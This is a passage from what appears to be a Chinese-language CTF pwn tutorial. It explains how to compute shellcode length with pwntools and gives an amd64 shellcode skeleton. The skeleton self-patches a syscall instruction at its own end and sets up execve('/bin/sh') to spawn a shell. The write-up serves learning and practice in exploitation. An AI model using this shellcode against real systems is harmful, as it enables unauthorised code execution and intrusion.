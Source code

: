 ```
io.interactive()
```
这里计算shellcode长度的方法，用`print(len(shellcode))`打印出来看看即可

然后`target_addr`，也就是我们要的**shellcode末尾地址**，就是 shellcode的地址 + shellcode的长度 = target_addr

**还有一个点要注意，就是我们用len求shellcode长度之前，先把shellcode的框架写好，这样求出来的长度才是正确的**

框架以及长度计算的方法一般如下：

```
from pwn import *

shellcode = asm("""
    mov rax, 0x00112233445566 #这里的地址随便写，后面改为计算出的shellcode末尾地址即可
    mov rbx, 0x5a5
    xor rbx, 0xaa
    mov [rax], rbx

    mov rbx, 0x0068732f6e69622f
    push rbx
    push rsp
    pop rdi
    xor esi,esi
    xor edx,edx
    push 59
    pop rax
    """)

context(os="linux", arch="amd64")
print(len(shellcode))
```

## 结语

多学多练qwq
